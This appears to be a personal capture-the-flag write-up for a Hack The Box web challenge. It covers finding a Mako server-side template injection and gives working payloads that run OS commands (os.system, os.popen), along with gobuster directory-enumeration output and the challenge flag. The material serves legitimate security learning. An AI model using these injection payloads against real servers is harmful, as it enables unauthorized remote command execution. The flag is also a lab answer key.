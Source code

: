 ## Challenge Details
- XSS based challenge
- Created a request bin
- Oops may not be exploitable but let's try if the admins keep track 
- running a dir buster to find out hidden folders : it's a dead end
- it's not a simple xss challenge, lets see if we have any other resources
- okay zip locked source code files ? will try and break, but we have the web code let's investigate
- no luck all files are locked. which tools to use for breaking zip passwords ?
- or what else can be done with a page which does not use a session
- Q ? is the data processed on the server side in any functionality ?
- A : Yes some of the characters did not come back ?
- Is there any chance of SSTI ??

## Vulnerability Found

The app is vulnerable to Server Side template injection

> Payload that confirmed : ${{<%[%'"}}%\.

## exploit

looks like the site uses a mako template

> payload : ${self.module.cache.util.os.system("id")}

tweak it to read the flag.txt
```mako
${self.module.cache.util.os.system("ls ~")}
${self.module.cache.util.os.popen('id').read()}


```
so the second command works

> ${self.module.cache.util.os.popen('id').read()}

list directories in the root:
![alt text](image-1.png)

## Yay!
![alt text](image.png)

> Flag: HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
## Gobuster output
```bash
┌─[noob@parrot]─[~/HTB/Spokify]
└──╼ $gobuster dir -u http://83.136.250.243:33086/ -w /usr/share/wordlists/dirbuster/
apache-user-enum-1.0.txt                 directories.jbrofuzz                     directory-list-2.3-medium.txt            directory-list-lowercase-2.3-medium.txt
apache-user-enum-2.0.txt                 directory-list-1.0.txt                   directory-list-2.3-small.txt             directory-list-lowercase-2.3-small.txt
┌─[noob@parrot]─[~/HTB/Spokify]
└──╼ $gobuster dir -u http://83.136.250.243:33086/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt  -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://83.136.250.243:33086/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 49811 / 141709 (35.15%)

```

## Done
![alt text](image-2.png)